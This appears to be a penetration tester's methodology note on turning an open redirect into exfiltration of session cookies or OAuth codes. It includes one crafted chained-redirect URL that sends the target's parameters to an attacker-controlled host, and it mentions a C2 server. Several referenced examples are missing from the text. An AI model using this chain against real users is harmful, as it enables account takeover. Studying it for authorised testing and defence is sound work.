



If the redirect URL contains sensitive GET parameters (session cookie, OAuth code, etc.), you can redirect the user to an attacker-controlled server and exfiltrate the sensitive parameter. 

This Impact Technique has two steps:
1. Identify sensitive GET parameters in the redirection URL.
2. Redirect the user to an external server to exfiltrate or use the sensitive parameter(s). 

# 1. Identify sensitive GET parameters in the redirection URL
Inspect the URL that is returned by the vulnerable server. At this point, you've already established that the server is vulnerable to Open Redirection. Does the redirect URL contain any GET parameters? If so, are any of value to an attacker?

For example, this server returned an OAuth code in the redirection URL:
![[Pasted image 20240207112147.png]]

An attacker could abuse this vulnerability to:
1. Send a user a link that redirected them to an attacker-controlled server.
2. Capture the user's OAuth code (after the user following the link and authenticated).
3. Exchange the OAuth code for a session token, and compromise the user's account.

It is somewhat unusual to find sensitive GET parameters in an Open Redirect URL. If your redirect URL has no parameters, consider the following tactics:
- If you have source code, look over the code responsible for crafting the redirection URL. Perhaps there is some way to trigger the application into adding a sensitive parameter that is not included by default?
- If you can find other endpoints that securely redirect the user and aren't vulnerable to Open Redirection but include a sensitive GET parameter in the redirection URL, you can try to ping one redirection off the other to capture the sensitive parameter. This tactic likely needs further clarification, as seen below.

For example, consider the following "secure" redirection:

- In this example, `/secure-redirect` will redirect the user to the page specified in the `next` parameter.
- However, it will not redirect the user to an external location.

Now, imagine the same application has a second endpoint that is vulnerable to open redirection:


In this case, the endpoint that is vulnerable to Open Redirection does not have any sensitive parameters. However, depending on how the server is configured, we might be able to combine these two endpoints into forcing the `cookie` parameter to appear in the external redirection:

- Note, to achieve this outcome, the server must carry over the GET parameters from the `GET /insecure-redirect` request.

If your server is configured this way, you could compromise the user's session token with a link like so:
```
https://target-website.com/secure-redirect?next=/insecure-redirect%3Fnext%3Dhttps%3A%2F%2Fattacker-website.com
```


# 2. Redirect the user to an external server
Once you can demonstrate Open Redirection with a sensitive URL parameter, you could then use Burp Collaborator or a Flask C2 server to demonstrate impact. This technique will look very similar to [[Session Token Exfiltration#2. Using the Cookie]].